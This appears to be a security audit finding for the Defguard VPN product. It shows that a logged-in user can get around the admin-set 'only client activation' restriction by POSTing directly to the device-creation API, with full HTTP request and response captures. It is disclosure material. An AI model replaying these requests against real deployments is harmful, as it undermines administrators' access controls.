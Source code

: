 ```yaml
---
title: "DG25-12: User can bypass only_client_activation feature"
cvss_score: 4.3
severity: Low
cvss_string: "/AV:N/AC:L/PR:L/UI:N/S:U/C:L/I:N/A:N"
issue_link: https://github.com/DefGuard/defguard/issues/1525
status: Completed
---
```


### Technical details

1.  only_client_activation is set to true - meaning that administrator
    disabled manual WireGuard configuration

**Request:**\
\
**GET** /api/v1/settings_enterprise HTTP/2\
**Host:** defguard.dvpnsec.net\
**Cookie:** defguard_session=NsgBmPHhmwakT9UGb0QO4SoR\
\
\
**Response:**\
\
**HTTP/2** 200 OK\
**Alt-Svc:** h3=\":443\"; ma=2592000\
**Content-Type:** application/json\
**Date:** Wed, 06 Aug 2025 12:17:11 GMT\
**Server:** Caddy\
**X-Defguard-Version:** 1.5.0-a29ac10\
**Content-Length:** 91\
\
{\"admin_device_management\":false,\"disable_all_traffic\":false,\"only_client_activation\":true}

1.  User can still send HTTP request which manually creates new device:

**Request:**\
\
**POST** /api/v1/device/userAAA HTTP/2\
**Host:** defguard.dvpnsec.net\
**Cookie:** defguard_session=NsgBmPHhmwakT9UGb0QO4SoR\
**Content-Length:** 95\
**Sec-Ch-Ua:** \"Not)A;Brand\";v=\"8\", \"Chromium\";v=\"138\"\
**Content-Type:** application/json\
**Sec-Ch-Ua-Mobile:** ?0\
**User-Agent:** Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36
(KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36\
**Accept-Encoding:** gzip, deflate, br\
**Priority:** u=1, i\
\
{\"name\":\"new-device-123-abc\",\"wireguard_pubkey\":\"fb4r8zxzstQ+/GxULwnqW9mqDF3YrBT2SvcEHyXqoWM=\"}\
\
\
**Response:**\
\
**HTTP/2** 201 Created\
**Alt-Svc:** h3=\":443\"; ma=2592000\
**Content-Type:** application/json\
**Date:** Wed, 06 Aug 2025 12:28:29 GMT\
**Server:** Caddy\
**X-Defguard-Version:** 1.5.0-a29ac10\
**Content-Length:** 736\
\

```json
{
  "configs": [
    {
      "address": [
        "10.22.33.10"
      ],
      "allowed_ips": [
        "10.22.33.0/24"
      ],
      "config": "[Interface]\nPrivateKey = YOUR_PRIVATE_KEY\nAddress = 10.22.33.10\n\n[Peer]\nPublicKey = wq5uFq9EnnRQkIDJr3I/bYS/EhBvwc4nptIewnhzdhU=\nAllowedIPs = 10.22.33.0/24\nEndpoint = 167.172.191.17:51820\nPersistentKeepalive = 300",
      "dns": null,
      "endpoint": "167.172.191.17:51820",
      "keepalive_interval": 25,
      "location_mfa_mode": "disabled",
      "network_id": 1,
      "network_name": "Demo-Location",
      "pubkey": "wq5uFq9EnnRQkIDJr3I/bYS/EhBvwc4nptIewnhzdhU="
    }
  ],
  "device": {
    "configured": true,
    "created": "2025-08-06T12:28:29.747718276",
    "description": null,
    "device_type": "User",
    "id": 20,
    "name": "new-device-123-abc",
    "user_id": 49,
    "wireguard_pubkey": "fb4r8zxzstQ+/GxULwnqW9mqDF3YrBT2SvcEHyXqoWM="
  }
}
```
